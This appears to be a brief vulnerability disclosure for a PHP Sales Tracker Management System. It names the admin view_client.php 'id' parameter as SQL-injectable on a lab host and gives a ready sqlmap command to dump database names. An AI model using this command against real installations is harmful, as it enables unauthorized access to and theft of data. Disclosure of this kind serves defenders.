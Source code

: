 Download sourcecode from https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html

Deploy the system 

The sql injection url: http://192.168.131.135/php-sts/admin/clients/view_client.php?id=1    Vulnerability trigger parameter: id

sourcecode:


![sts](https://user-images.githubusercontent.com/127364570/223895608-6da280bb-ebb4-4c2e-a98e-598f20df701a.JPG)

sqlmap command:  sqlmap.py -u "http://192.168.131.135/php-sts/admin/clients/view_client.php?id=1" -p id  --risk 3 --dbs

![sts1](https://user-images.githubusercontent.com/127364570/223897486-6e35c2c5-58c1-429e-b7bf-d1a8044a93ae.JPG)

![sts2](https://user-images.githubusercontent.com/127364570/223897514-339d30bb-76e9-4e8d-a54e-a69002c7a15d.JPG)





